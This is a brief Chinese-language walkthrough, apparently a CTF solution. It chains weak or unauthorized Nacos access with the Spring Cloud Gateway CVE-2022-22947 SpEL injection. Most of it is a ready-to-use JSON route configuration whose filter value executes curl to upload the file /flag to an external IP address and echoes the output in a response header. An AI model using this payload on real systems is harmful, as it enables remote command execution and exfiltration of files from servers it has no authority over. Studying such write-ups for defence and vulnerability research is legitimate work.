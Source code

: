 Spring Cloud Gateway曾出现CVE-2022-22947漏洞，该漏洞允许攻击者通过动态配置路由，执行SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。但实际情况可能有很多Spring Cloud Gateway存在漏洞，但未开放Actuator API，所以导致无法利用。但如果在资产收集时发现目标存在nacos，并且可用弱口令或者未授权漏洞创建用户登录进去的话，我们可以采用Nacos的动态配置特性结合Spring Cloud Gateway的RCE漏洞进行利用。
参考文章：<https://xz.aliyun.com/t/11493?time__1311=Cq0xRDnD070Q%3DGNPeeuAxfE1x9AB%3DDg7WoD>

利用nacos漏洞进入后台后，发现gateway配置文档，修改发布，进行spel注入命令执行。下面是json格式。
这里是给了网关的jar，反编译查看到了基础的配置。
![](.topwrite/assets/image_1735374395624.png)
```
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "whocansee",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'curl','http://47.113.202.32:23233','-T','/flag'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```
此时访问/echo/11触发，查看响应头有命令回显结果。
